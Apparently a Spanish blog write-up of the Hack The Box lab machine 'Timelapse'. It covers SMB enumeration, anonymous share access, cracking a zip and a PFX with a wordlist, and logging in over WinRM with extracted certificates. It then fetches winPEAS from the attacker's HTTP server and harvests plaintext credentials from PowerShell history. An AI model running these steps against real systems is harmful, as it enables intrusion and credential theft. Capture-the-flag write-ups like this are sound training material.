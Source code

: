 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:
```S
ping -c 2 10.10.11.152
#ttl=63 o 64 significa que la maquina es linux
#ttl=127 o 128 significa que es windows
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:
```S
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```

![nmap output](/assets/images/Timelapse/nmap_out.png)

Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:
```S
ls /usr/share/nmap/scripts | grep smb-vuln
```

![nmap specific search](/assets/images/Timelapse/nmap_specific.png)

El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos con los dominios encontrados. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.
```S
nano /etc/hosts
```
![Integracion de maquina en el dominio](/assets/images/Timelapse/domain_integration.png)

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb
```S
enum4linux -a 10.10.11.152
```
![enum4linux output](/assets/images/Timelapse/enum_view.png)

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas
```S
smbclient --no-pass --list=10.10.11.152
```
![smb no pass output](/assets/images/Timelapse/smb_output.png)

Para conectarnos al rpc y obtener mas informacion, utilizaremos el siguiente comando y en la imagen adjunta hay otros comandos que podrian ser de ayuda en la recopilacion de informacion.

```S
rpcclient -U "" -N 10.10.11.152
```
![rpc output](/assets/images/Timelapse/rpc_output.png)

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```S
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```
Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

![Archivos descargados](/assets/images/Timelapse/files_downloaded1.png)

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:
```S
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```
![frackzip usage](/assets/images/Timelapse/fcrackzip.png)
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```S
sudo apt install libssl-dev
sudo ./configure
make    
```

El comando que utilizaremos, para volver a usar la wordlist, es:
```S
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```

![crackpkcs12 usage](/assets/images/Timelapse/crackpkcs12.png)

La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

![Openssl example](/assets/images/Timelapse/openssl_prv.png)


Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```
A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:
```S
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 
![Evil win output](/assets/images/Timelapse/evil-win.png)

Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

![First flag](/assets/images/Timelapse/flag1.png)

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina
```py
python3 -m http.server 80
``` 
![Python http server](/assets/images/Timelapse/python_http.png)

Con PowerShell, ejecutamos el siguiente comando para hacer la descarga
```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
``` 
![Uploading winPEAS tool](/assets/images/Timelapse/winpeas64.png)

Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.
```S
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 

Nos descargamos el archivo de historia de comandos y lo visualizamos

![Powershell history](/assets/images/Timelapse/pwshell_history.png)

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

![Openning Powershell history](/assets/images/Timelapse/openning_pwshell_history.png)

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

![LDAP connection](/assets/images/Timelapse/ldap_conection.png)

Leemos la ultima bandera, con la contrasena que hemos obtenido; que igualmente se encuentra en el escritorio y habremos terminado la maquina
